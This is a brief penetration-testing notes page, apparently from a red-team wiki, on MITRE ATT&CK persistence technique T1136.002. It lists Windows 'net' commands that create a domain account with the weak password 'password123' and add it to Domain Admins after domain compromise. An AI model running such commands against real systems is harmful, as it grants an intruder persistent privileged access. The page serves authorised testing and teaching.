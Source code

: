```yaml
---
description: MITRE ATT&CK, Persistence, Sub-technique T1136.002
---
```


# Domain Account

After obtaining Domain Administrator access in an engagement I like to create a Domain Administrator account to perform all other post exploitation activities from.&#x20;

Steps from a domain controller to create a domain administrator account:

```powershell
net user parzival password123 /add /domain
net group "Domain Admins" parzival /add /domain
net user parzival /comment:"Account created for authorized pentest. Created on XX/XX/XXXX"
net user parzival /expires:XX/XX/XXXX
```
